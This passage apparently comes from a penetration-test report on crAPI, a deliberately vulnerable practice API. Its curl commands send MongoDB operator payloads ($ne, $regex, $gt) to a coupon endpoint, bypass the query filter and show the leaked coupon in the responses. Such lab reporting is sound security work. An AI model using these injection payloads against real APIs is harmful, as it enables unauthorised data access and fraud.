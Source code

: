 **Prerequisites:**
- Valid JWT authentication token

**Exploitation Steps:**

1. **Authenticate and obtain JWT token:**
```bash
curl -k -X POST https://crapi.sandbox.local:8888/identity/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email": "admin@example.com", "password": "Admin!123"}'
```

2. **Test basic endpoint functionality:**
```bash
curl -k -X POST https://crapi.sandbox.local:8888/community/api/v2/coupon/validate-coupon \
  -H "Authorization: Bearer [JWT_TOKEN]" \
  -H "Content-Type: application/json" \
  -d '{"coupon_code": "test"}'
```
Response: `{}` (empty object for non-existent coupon)

3. **Exploit with $ne operator to extract data:**
```bash
curl -k -X POST https://crapi.sandbox.local:8888/community/api/v2/coupon/validate-coupon \
  -H "Authorization: Bearer [JWT_TOKEN]" \
  -H "Content-Type: application/json" \
  -d '{"coupon_code": {"$ne": null}}'
```
Response: `{"coupon_code":"TRAC075","amount":"75","CreatedAt":"2025-09-23T18:00:24.201Z"}`

4. **Verify with regex operator:**
```bash
curl -k -X POST https://crapi.sandbox.local:8888/community/api/v2/coupon/validate-coupon \
  -H "Authorization: Bearer [JWT_TOKEN]" \
  -H "Content-Type: application/json" \
  -d '{"coupon_code": {"$regex": "^."}}'
```
Response: `{"coupon_code":"TRAC075","amount":"75","CreatedAt":"2025-09-23T18:00:24.201Z"}`

5. **Confirm with greater-than operator:**
```bash
curl -k -X POST https://crapi.sandbox.local:8888/community/api/v2/coupon/validate-coupon \
  -H "Authorization: Bearer [JWT_TOKEN]" \
  -H "Content-Type: application/json" \
  -d '{"coupon_code": {"$gt": ""}}'
```
Response: `{"coupon_code":"TRAC075","amount":"75","CreatedAt":"2025-09-23T18:00:24.201Z"}`

**Proof of Impact:**
- **Complete MongoDB Query Manipulation:** Successfully bypassed all query filters using MongoDB operators
- **Sensitive Data Extracted:** Coupon code TRAC075 with value $75 and creation timestamp
- **Multiple Injection Vectors Confirmed:** $ne, $regex, and $gt operators all successful
- **Business Logic Bypass:** Able to access arbitrary coupons without knowing valid codes

# Authentication Exploitation Evidence
